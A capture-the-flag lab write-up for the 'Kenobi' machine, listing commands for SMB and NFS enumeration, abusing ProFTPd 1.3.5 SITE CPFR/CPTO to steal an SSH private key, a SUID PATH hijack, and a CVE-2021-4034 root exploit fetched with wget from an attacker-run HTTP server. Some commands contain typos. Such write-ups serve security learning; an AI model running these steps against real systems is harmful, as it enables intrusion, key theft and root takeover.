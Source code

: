 # Kenobi

## Scanning

First we will deploy the machine and scan the target using rustscan.

<img src="images/03.Kenobi/01.png" >

<img src="images/03.Kenobi/02.png" >

<img src="images/03.Kenobi/03.png" >

<img src="images/03.Kenobi/04.png" >l

## Enumeration

We can see that there is Samba file server running, so let's find the available shares.

```
smbclient -L 10.10.74.95
```

<img src="images/03.Kenobi/05.png" >

We will now connect to the anonymous share.

```
smbclient\11\10.10.74.95\\anonymous
```

<img src="images/03.Kenobi/06.png" >

When we read the log.txt file, we can see the user is kenobi, the id_rsa file path and the ftp running on port 21.

<img src="images/03.Kenobi/07.png" >

On the port 111 we see there is rpcbind service running and in the rpcinfo we can see that nfs service is running. So, let's enumerate for nfs shares and from the mount information we can see the mount /var.

```
nmap -p 111 -script=nfs-ls,nfs-statfs,nfs-showmount10.10.74.95
```

<img src="images/03.Kenobi/08.png" >

We saw there is a ftp service running on port 21. Let's try to grab the banner of ftp to find the ftp version using netcat.

```
nc 10.10.74.95 21
```

<img src="images/03.Kenobi/09.png" >

We will use searchsploit to find for any vulnerabilities present in the 1.3.5 version of ProFTPd.

```
searchsploit proftpd 1.3.5
```

While looking for the vulnerabilities for the proftpd version 1.3.5, we found that there is a vulnerability that exploits SITE CPFR/CPTO commands.

<img src="images/03.Kenobi/10.png" >

## Exploitation

Using this we can copy files in the target. So, we will copy the id_rsa file to the /var directory and then mount the /var directory to our machine.

Let's connect to ftp and copy the files.

```
nc 10.10.74.95 21
```

```
SITE CPFR /home/kenobi/.ssh/id_rsa
```

```
SITE CPTO /var/tmp/id_rsa
```

<img src="images/03.Kenobi/11-1.png" >

<img src="images/03.Kenobi/11.png" >

Now we will mount the /var directory to our machine.

```
mkdir /mnt/kenobi
```

```
mount 10.10.74.95:/var /mnt/kenobi
```

```
cd /mnt/kenobi
```

<img src="images/03.Kenobi/12.png" >

We can see the file, we will copy it to our machine and change the permissions for the file. Now ssh into the target as user kenobi.

```
chmod 600 id_rsa
```
```
ssh kenobi@10.10.74.95 -i id rsa
```

<img src="images/03.Kenobi/13.png" >

We're logged in as kenobi and we can read the user flag.

<img src="images/03.Kenobi/14.png" >

## Privilege Escalation

### Approach 1

We will find the files with SUID bit set.

```
find / -perm -u=s - type f 2>/dev/null
```

<img src="images/03.Kenobi/15.png" >

/usr/bin/menu seems to be unusual among the list of file that we got.

When we execute that binary, we can see a couple of commands that can be executed. We will now manipulate the PATH variable to get our root shell.

<img src="images/03.Kenobi/16.png" >

When we used the first command to test what that does, we can see it is using curl to run the status check. Now, we will replace the functionality of the curl command in the status check with the /bin/sh and add it to the path so that we can get the shell as soon it gets executed.

<img src="images/03.Kenobi/17.png" >

We got the root shell!!!

### Approach 2

Start the python http server and download linpeas.sh to the target machine.

```
python -m http.server 1111
```
<img src="images/03.Kenobi/18.png" >

> On target machine

```
wet http: //10.6.29.149:1111/linpeas.sh
```

Change the file permissions to executable and run the file.

```
chmod +x linpeas.sh
```
```
./linpeas.sh
```

<img src="images/03.Kenobi/19.png" >

We can see that the target machine is vulnerable to CVE-2021-4034.

<img src="images/03.Kenobi/20.png" >

Clone the repo into your machine.

```
https://github.com/ryaagard/CVE-2021-4034.git
```

```
cd CVE-2021-4034
```

Start the python server again to server the files.

```
python -m http.server 1111
```

On target machine create a folder and download all the files to the machine.

```
wet http://10.6.29.149:1111/evil.so
```

```
wget http://10.6.29.149:1111/evil-so.c
```

```
wget http://10.6.29.149:1111/exploit.c
```

```
wget http://10.6.29.149:1111/Makefile
```

```
wget http://10.6.29.149:1111/README.md
```

<img src="images/03.Kenobi/21.png" >

Run the make file.

```
make
```

Execute exploit.sh.

```
./exploit.sh
```

<img src="images/03.Kenobi/22.png" >

We got the root shell!!!
